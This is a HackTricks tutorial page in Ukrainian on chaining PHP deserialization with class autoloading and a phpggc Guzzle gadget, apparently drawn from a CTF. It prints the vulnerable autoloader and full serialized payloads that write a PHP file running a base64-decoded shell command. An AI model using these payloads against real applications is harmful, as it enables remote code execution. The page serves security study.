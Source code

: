 # PHP - Десеріалізація + Автозавантаження класів

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Спочатку вам слід перевірити, що таке [**Автозавантаження класів**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP десеріалізація + spl\_autoload\_register + LFI/Gadget

Ми знаходимося в ситуації, коли знайшли **десеріалізацію PHP у веб-додатку** без **жодної** бібліотеки, вразливої до гаджетів всередині **`phpggc`**. Однак у тому ж контейнері була **інша веб-додаток composer з вразливими бібліотеками**. Тому метою було **завантажити завантажувач composer іншого веб-додатку** і зловживати ним, щоб **завантажити гаджет, який експлуатуватиме цю бібліотеку з гаджетом** з веб-додатку, вразливого до десеріалізації.

Кроки:

* Ви знайшли **десеріалізацію**, і в поточному коді програми **немає жодного гаджета**
* Ви можете зловживати функцією **`spl_autoload_register`** на кшталт наступної, щоб **завантажити будь-який локальний файл з розширенням `.php`**
* Для цього ви використовуєте десеріалізацію, де ім'я класу буде всередині **`$name`**. Ви **не можете використовувати "/" або "."** в імені класу в серіалізованому об'єкті, але **код** **замінює** **підкреслення** ("\_") **на слеші** ("/"). Тож ім'я класу, таке як `tmp_passwd`, буде перетворено на `/tmp/passwd.php`, і код спробує його завантажити.\
Приклад **гаджета** буде: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Якщо у вас є **завантаження файлів** і ви можете завантажити файл з **розширенням `.php`**, ви можете **безпосередньо зловживати цією функціональністю** і отримати вже RCE.
{% endhint %}

У моєму випадку нічого подібного не було, але всередині **того ж контейнера** була інша веб-сторінка композера з **бібліотекою, вразливою до гаджета `phpggc`**.

* Щоб завантажити цю іншу бібліотеку, спочатку потрібно **завантажити завантажувач композера тієї іншої веб-аплікації** (оскільки завантажувач поточної аплікації не зможе отримати доступ до бібліотек іншої). **Знаючи шлях до аплікації**, ви можете досягти цього дуже легко за допомогою: **`O:28:"www_frontend_vendor_autoload":0:{}`** (У моєму випадку завантажувач композера був у `/www/frontend/vendor/autoload.php`)
* Тепер ви можете **завантажити** інший **завантажувач композера аплікації**, тому настав час **`згенерувати phpgcc`** **payload** для використання. У моєму випадку я використовував **`Guzzle/FW1`**, що дозволило мені **записувати будь-який файл у файловій системі**.
* ПРИМІТКА: **Згенерований гаджет не працював**, щоб він працював, я **модифікував** цей payload **`chain.php`** phpggc і встановив **всі атрибути** класів **з приватних на публічні**. Якщо ні, після десеріалізації рядка атрибути створених об'єктів не мали жодних значень.
* Тепер у нас є спосіб **завантажити інший завантажувач композера аплікації** і мати **працюючий payload phpgcc**, але нам потрібно **зробити це в ТОМУ Ж ЗАПИТІ, щоб завантажувач був завантажений, коли гаджет використовується**. Для цього я надіслав серіалізований масив з обома об'єктами, як:
* Ви можете побачити **спочатку завантажувач, що завантажується, а потім payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Тепер ми можемо **створити та записати файл**, однак користувач **не міг записувати в жодну папку всередині веб-сервера**. Отже, як ви можете бачити в payload, PHP викликає **`system`** з деяким **base64**, який створюється в **`/tmp/a.php`**. Потім ми можемо **повторно використовувати перший тип payload**, який ми використовували як LFI, щоб завантажити завантажувач composer іншого веб-додатку **для завантаження згенерованого `/tmp/a.php`** файлу. Просто додайте його до гаджета десеріалізації:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Резюме корисного навантаження**

* **Завантажити автозавантаження composer** іншого веб-додатку в тому ж контейнері
* **Завантажити гаджет phpggc** для зловживання бібліотекою з іншого веб-додатку (первинний веб-додаток, вразливий до десеріалізації, не мав жодного гаджета у своїх бібліотеках)
* Гаджет **створить файл з PHP корисним навантаженням** у /tmp/a.php з шкідливими командами (користувач веб-додатку не може записувати в жодну папку жодного веб-додатку)
* Остання частина нашого корисного навантаження буде використовувати **завантажити згенерований php файл**, який виконає команди

Мені потрібно було **викликати цю десеріалізацію двічі**. У моєму тестуванні, перший раз файл `/tmp/a.php` був створений, але не завантажений, а вдруге його було правильно завантажено.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
